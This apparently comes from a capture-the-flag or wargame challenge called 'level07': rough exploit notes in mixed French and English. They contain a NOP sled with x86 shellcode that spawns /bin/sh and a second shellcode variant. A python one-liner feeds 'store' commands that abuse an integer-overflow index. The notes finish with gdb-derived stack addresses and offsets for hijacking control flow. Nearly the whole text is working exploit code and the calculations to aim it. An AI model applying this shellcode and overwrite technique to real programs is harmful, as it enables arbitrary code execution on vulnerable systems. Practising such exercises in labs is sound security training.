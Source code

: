 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80\x90

"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x90\x90\x90"

1073741824 => 0 (en x 4 en 32 bits)
+1 pour le suivant => +3 pour le next ou on peut pas ecrire

python -c 'print "".join([("store\n2425393296\n" + str(n) + "\n") for n in range(1073741824, 1073741844)])', > /tmp/level07

(filling with nops)

now we split the shellcode in groups of 4 bytes and we reverse them for little indian

OR we just copy the carefully crafter payload in ressources using

<< eof cat > /tmp/level07

now we have setup the shellcode (can be done using (cat /tmp/level07))

stack starts at 0xfffdd000 and ends at 0xffffe000 (info proc all in gdb)

start of the buffer is at esp+36 (exp+0x24) = 0xffffd554

0xf7e45513 ? would mean 136020033 offset => input address 1073741824 + 136020033 = 1209761857 and input 0xffffd554 => \xff\xff\xd5\x54 => 1423310847